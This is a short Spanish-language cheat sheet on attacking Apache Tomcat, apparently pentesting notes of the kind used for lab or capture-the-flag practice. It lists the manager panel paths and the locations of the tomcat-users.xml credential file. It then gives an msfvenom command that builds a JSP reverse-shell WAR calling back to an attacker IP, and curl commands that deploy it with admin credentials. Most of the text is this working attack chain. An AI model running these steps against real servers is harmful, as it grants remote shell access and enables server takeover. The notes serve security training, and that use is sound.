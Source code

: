# Tomcat 

Tags: #Tomcat #Windows

## Ruta en la web

```bash 
/manager/html                # Ruta tipica que contiene un panel de autenticacion en donde se encuentra el panel de admin en Tomcat 
/host-manager/html           # Ruta alternativa 

/manager/status/             # Muestra la version de Tomcat         
```

## Ruta en consola

```bash 
/etc/tomcat9/tomcat-users.xml              # Archivo que contiene usuarios y sus passwd
/usr/share/tomcat9/etc/tomcat-users.xml    # Ruta alternativa
```

## Crear una aplicación para subirla desde el panel Tomcat  

```bash 
# En el panel de manager, encontramos una opción en donde podemos subir un archivo .war, por lo que hacemos lo siguiente:

❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o shell.war # Creamos nuestro archivo malicioso .war 

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato war
	# o = Exportar como 'shell.war'
```

## Subir una aplicación desde la consola con credenciales validas de 'admin'

```bash 
❯ curl -s -u 'username:passwd' -X GET "http://IP/manager/text/list"    # Listar aplicaciones existentes en Tomcat si tenemos credenciales validas 

- [ ] ❯ curl -s -u 'username:passwd' "http://IP/manager/text/deploy?path=/shell" --upload-file shell.war  # Desplegar la aplicacion creada anteriormente 
```